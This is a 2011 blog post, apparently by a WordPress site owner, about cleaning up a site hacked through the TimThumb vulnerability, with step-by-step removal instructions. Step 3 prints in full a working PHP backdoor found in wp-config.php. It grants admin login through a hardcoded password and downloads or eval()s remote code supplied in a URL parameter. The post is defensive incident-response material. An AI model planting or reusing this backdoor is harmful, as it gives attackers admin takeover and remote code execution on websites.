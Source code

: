 ```yaml
---
title: Warning - Something's Not Right Here
date: 2011-09-30 12:00
author: Blake Embrey
layout: article.pug
---
```


![Chrome is broken :/](warning.png)

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future reference as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```php
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).
